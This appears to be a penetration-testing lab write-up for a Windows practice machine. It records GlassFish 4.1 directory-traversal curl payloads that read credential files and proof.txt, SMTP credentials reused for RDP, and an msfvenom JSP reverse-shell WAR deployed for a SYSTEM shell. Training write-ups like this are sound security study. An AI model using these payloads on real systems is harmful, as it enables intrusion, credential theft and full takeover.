

# Fish - intermediate windows

## Enumeration

* 135, 139 - No remote rpc access
* 445 - no remote smb access
* 3389 - RDP
* 3700 - GIOP (General Inter-ORB Protocol) . CORBA Naming Service in application servers like GlassFish.
* 4848 - Sun GlassFish Open Source Edition  4.1 - admin panel (default creds dont work)
* 6060 - SynaMan 5.1 service - remote file manager- login page
* 7676 - Java Message Service (allows application components to create, send, receive, and read messages in a loosely coupled, reliable, and asynchronous manner)
* 8080 - web hosting page - Sun GlassFish Open Source Edition  4.1
* 8081 - https - web hosting page - Sun GlassFish Open Source Edition  4.1
* 8686 - Java Management Extensions (JMX) monitoring connections in applications like Oracle GlassFish Server.

* Glassfish 4.1 is vulnerable to directory traversal (CVE:2017-1000028)
  - https://www.exploit-db.com/exploits/39441
* Config Files:
  - glassfish4/glassfish/domains/domain1/config/admin-keyfile
  - glassfish4/glassfish/domains/domain1/config/local-password
  
```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/fish]
└─$ curl "http://192.168.221.168:4848/theme/com%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afglassfish4/glassfish/domains/domain1/config/admin-keyfile"
admin;{SSHA256}aLatQQ3qEJHinsX4N/+V/45mJwFSkXN5w7vz3P6kHy4jrX+U7hXCkQ==;asadmin

```
```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/fish]
└─$ curl "http://192.168.221.168:4848/theme/com%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afglassfish4/glassfish/domains/domain1/config/local-password"
0FCEC113E7B788CBAEF2F6640C4A7958BD351F91
```
* Tried to crack the hash - no go
-------------------------------------------
* SMTP credential disclosure vulnerability with the Synaman web service.

* Synaman config files:
  - C:\SynaMan\config\AppConfig.xml 
  


* Got smpt creds - arthur:KingOfAtlantis
* Login to RDP with these creds.

## Priv Esc

* GlassFish allows deployment of web applications via its admin console. When you have authenticated or local access to that console, you can deploy arbitrary Java webapps. If a deployed webapp contains a reverse shell, the web server will execute it — giving you remote code execution.
* We saw that, the admin user on the GlassFish console has the ability to read proof.txt by directory traversal earlier.

```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/fish]
└─$ curl "http://192.168.221.168:4848/theme/com%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afUsers/Administrator/Desktop/proof.txt"
0dfe9187f73994dde24275d7537384e0
```
* Access the console locally ( didnt ask for creds) (127.0.0.1:4848)

* Create a malicious .war file and set up a listner
```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/fish]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.45.164 LPORT=443 -f war -o shell.war
Payload size: 1101 bytes
Final size of war file: 1101 bytes
Saved as: shell.war
```

* In console -> Application -> Deploy -> Select the malicious war file -> Launch 

* We get a shell

```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/fish]
└─$ nc -nvlp 443 
listening on [any] 443 ...
connect to [192.168.45.164] from (UNKNOWN) [192.168.221.168] 49887
Microsoft Windows [Version 10.0.19042.1288]
(c) Microsoft Corporation. All rights reserved.

C:\glassfish4\glassfish\domains\domain1\config>whoami
whoami
nt authority\system
```


